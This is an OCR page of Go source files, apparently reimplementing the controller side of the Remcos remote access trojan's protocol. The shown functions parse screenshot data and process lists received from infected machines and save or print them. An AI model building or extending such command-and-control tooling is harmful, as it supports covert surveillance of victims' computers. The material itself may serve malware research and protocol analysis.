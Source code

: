 -   remcos\_xx/command\_Screen\_Capture.go

```plain
package remcos_xx

import (
    "Client_Remcos/common"
    "encoding/hex"
    "fmt"
    "net"
    "strings"
)

func Command_Screen_Capture(conn net.Conn) {
    recvdata, err := RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }
    //fmt.Println(hex.EncodeToString(recvdata))

    hex_datas := strings.Split(hex.EncodeToString(recvdata[4:]), "7c1e1e1f7c")
    filename, _ := hex.DecodeString(hex_datas[0])
    bufdata, _ := hex.DecodeString(hex_datas[1])

    fmt.Println("screen_capture output:" + "截屏保存于" + string(filename) + ".png" + "文件中")
    common.Writefile(string(filename)+".png", string(bufdata))
}
```

-   remcos\_xx/command\_Process\_Manager.go

```plain
package remcos_xx

import (
    "bytes"
    "fmt"
)

func Command_Process_Manager(buf_recv []byte) {
    datas := bytes.Split(buf_recv, []byte{0x7c, 0x1e, 0x1e, 0x1f, 0x7c})

    list_process := datas[0]
    pid_current := datas[1]

    fmt.Println("current process PID：" + string(pid_current))

    fmt.Println("Process Name\tPath\tPID")
    list_process = bytes.ReplaceAll(list_process, []byte{0x00}, []byte{})
    list_process = bytes.ReplaceAll(list_process, []byte{0xa6, 0x30, 0x7c}, []byte("\n"))
    list_process = bytes.ReplaceAll(list_process, []byte{0xa6}, []byte("\t"))
    fmt.Println(string(list_process))

}
```
